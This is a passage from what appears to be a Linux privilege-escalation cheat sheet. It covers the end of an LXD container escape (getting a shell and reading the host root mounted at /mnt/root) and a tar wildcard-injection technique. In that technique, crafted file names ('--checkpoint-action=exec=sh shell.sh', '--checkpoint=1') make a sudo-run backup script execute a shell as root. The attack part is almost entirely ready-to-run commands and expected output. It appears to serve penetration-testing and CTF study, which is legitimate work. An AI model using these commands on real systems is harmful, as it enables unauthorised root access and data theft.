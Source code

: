 4. **Get a Shell**

    ```sh
    lxc exec <created-container-name> /bin/sh
    ```

    Check if you are root.

    ```sh
    whoami
    ```

5. **Retrieve the Sensitive Information in the Mounted Directory**

    ```sh
    cd /mnt/root/
    ```

<br />

## Wildcard Injection with Tar

```sh
# Check if there are 'tar' command and wildcard(*) in the sudoers
sudo -l

# > the output expected
(root) NOPASSWD: /opt/backups/backup.sh

# -----------------------------------------------------------------------------

# Move to the directory and check the content.
cd /opt/backups
cat backup.sh

# > the output expected
tar cf backup.tar *

# ------------------------------------------------------------------------------

# Payloads
cd /opt/backups
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

# Check current user
whoami
```

<br />

## Mount Folders
